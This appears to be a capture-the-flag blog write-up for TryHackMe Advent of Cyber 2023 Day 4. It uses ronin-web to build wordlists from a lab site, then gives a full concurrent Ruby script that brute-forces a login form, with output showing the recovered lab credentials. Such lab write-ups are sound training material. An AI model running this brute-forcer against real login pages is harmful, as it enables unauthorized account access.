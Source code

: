 ```yaml
---
layout: post
title: Solving Advent of Cyber 2023 Day 4 using Ronin
author: postmodern
tags:
  - adventofcyber
  - adventofcyber2023
  - ctf
  - tryhackme
  - ruby
  - ronin
  - writeup
---
```


This year I decided to try using Ronin to solve the [Advent of Cyber 2023]
challenges. Let's see how far I can get.

The Day 4 challenge is also a bruteforcing challenge like Day 3, but this time
we have to bruteforce the username and password for a login form. The
instructions for the challenge recommends using [CeWL] to spider the website
and build a custom words, and then use [wfuzz] to bruteforce the login form
until we get a successful login response. Instead of using [CeWL], we will
use [ronin-web]'s brand new `wordlist` command to spider the website and build
the custom wordlist. The `ronin-web wordlist` command leverages the
battle-tested [spidr] library and has many more options than [CeWL].

First we will need to use `ronin-web wordlist` to spider the website and create
a custom wordlist of possible usernames. The instructions for the challenge
hint that we should generate a wordlist containing lowercase usernames.

```shell
ronin-web wordlist --site http://10.10.223.131 -o usernames.txt --normalize-case
```

Next we will need to spider the website again and generate a custom wordlist of
possible passwords. The instructions for the challenge hint that we will want
to allow digits and whole numbers in our password wordlist.

```shell
ronin-web wordlist --site http://10.10.223.131 --digits --numbers -o passwords.txt
```

Now that we have our two custom wordlists, we will write a bruteforcing Ruby
script that will send every combination of username and password, until we get a
successful login response. First we will need to determine what an unsuccessful
login attempt HTTP response looks like, so our bruteforcer Ruby script can
ignore those and keep bruteforcing. Attempting to login with the username `foo`
and the password `bar`, and checking the Network tab in Chrome DevTools, we see
a 200 OK response. Hmm that doesn't seem right. The same login page is returned,
but with the text `Please enter the correct credentials`. If a HTTP response
contains the text `Please enter the correct credentials` than we know the
username and password did not work and to try the next username and password.

Another problem is that it takes a while for a HTTP response to be returned for
a login attempt. This means that a single threaded bruterforcer script would
take too long and the machine would likely timeout or expire before we have
found the correct username and password. We need to pull out Ruby's secret
weapon for high-performance I/O, the [async gems][async]. The [async gems]
allow writing asynchronous I/O code that runs in Ruby Fibers, which are
lighter weight than native Threads. When one Ruby Fiber blocks waiting
for data to be received, Ruby can switch to another Fiber; this also means
we don't have to deal with "callback hell". Using the [async gems][async]
we can easily create a pool of worker tasks which consume username/password
combinations from a producer task, sends the HTTP requests, waits for a
response, checks the response and exits if one of the
username/password combinations works.

```ruby
require 'ronin/support'
require 'wordlist'
require 'async'
require 'async/queue'
require 'async/io'

include Ronin::Support

# worker pool size
WORKERS = 100

usernames = Wordlist.open('usernames.txt')
passwords = Wordlist.open('passwords.txt')

ip = ARGV[0]

# the work queue
credentials = Async::LimitedQueue.new(WORKERS)

Async do |task|
  # producer task
  task.async do
    usernames.each do |username|
      passwords.each do |password|
        credentials.enqueue([username, password])
      end
    end

    # send the stop values to the workers
    WORKERS.times { credentials.enqueue(nil) }
  end

  # initialize the worker pool
  WORKERS.times do
    # consumer task
    task.async do
      http = http_connect(ip,80)

      # send the initial request to obtain the session cookie
      response = http.get('/login.php')
      session_cookie = response['Set-Cookie']

      while (username, password = credentials.dequeue)
        print_info "Trying #{username} : #{password} ..."

        response = http.post('/login.php', form_data: {
                                             username: username,
                                             password: password
                                           },
                                           cookie: session_cookie)

        if response.body.include?('Please enter the correct credentials')
          # login failed, keep trying ...
        else
          print_success "Jack Pot! #{username} : #{password}"
          exit 0
        end
      end
    end
  end
end

print_failure "No usernames/passwords worked :("
exit(-1)
```

Now to run the bruteforcing Ruby script against the target machine IP address.
We will add the `--jit` option to speed up our Ruby script as much as possible.

```shell
$ ruby --jit bruteforce.rb 10.10.223.131
```

Now we should see username and password combinations fly past as the
bruteforcing Ruby script hammers the target machine. Eventually you should
find the correct username and password combination:

```
...
[*] Trying security : meticulous ...
[*] Trying security : attention ...
[*] Trying security : detail ...
[+] Jack Pot! isaias : Happiness
```

As you can see, Ronin provides you with powerful commands *and* libraries that
can give you an edge over other pentesting tools.

[Advent of Cyber 2023]: https://tryhackme.com/room/adventofcyber2023
[CeWL]: https://github.com/digininja/CeWL#readme
[wfuzz]: https://github.com/xmendez/wfuzz#readme
[ronin-web]: https://github.com/ronin-rb/ronin-web#readme
[spidr]: https://github.com/postmodern/spidr#readme
[async]: https://socketry.github.io/async/guides/getting-started/index.html
